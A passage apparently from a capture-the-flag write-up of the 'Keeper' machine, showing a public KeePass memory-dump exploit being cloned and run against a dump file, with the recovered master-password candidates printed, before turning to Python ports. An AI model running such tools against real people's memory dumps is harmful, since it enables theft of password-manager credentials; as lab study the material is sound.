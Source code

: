 
The `-v $(pwd):/data` will mount the current directory (where the dump is)
into the container in `/data`. I’ll clone the exploit and go into that
directory:

    
    
    root@8af1c7b7c189:/# git clone https://github.com/vdohney/keepass-password-dumper
    Cloning into 'keepass-password-dumper'...
    remote: Enumerating objects: 111, done.
    remote: Counting objects: 100% (111/111), done.
    remote: Compressing objects: 100% (79/79), done.
    remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
    Receiving objects: 100% (111/111), 200.08 KiB | 4.55 MiB/s, done.
    Resolving deltas: 100% (61/61), done.
    root@8af1c7b7c189:/# cd keepass-password-dumper/
    root@8af1c7b7c189:/keepass-password-dumper#
    

Now the exploit runs fine:

    
    
    root@8af1c7b7c189:/keepass-password-dumper# dotnet run /data/KeePassDumpFull.dmp 
    ...[snip]...
    Password candidates (character positions):
    Unknown characters are displayed as "●"
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
    3.:     d, 
    4.:     g, 
    5.:     r, 
    6.:     ø, 
    7.:     d, 
    8.:      , 
    9.:     m, 
    10.:    e, 
    11.:    d, 
    12.:     , 
    13.:    f, 
    14.:    l, 
    15.:    ø, 
    16.:    d, 
    17.:    e, 
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
    

That’s the same output as above.

#### Exploit with Python

Since the release of Keeper, many Python versions of this exploit have come
out. I had a hard time finding one that worked as nicely as the DotNet
version. For example, [this one](https://github.com/z-jxy/keepass_dump) will
get most of the password:

    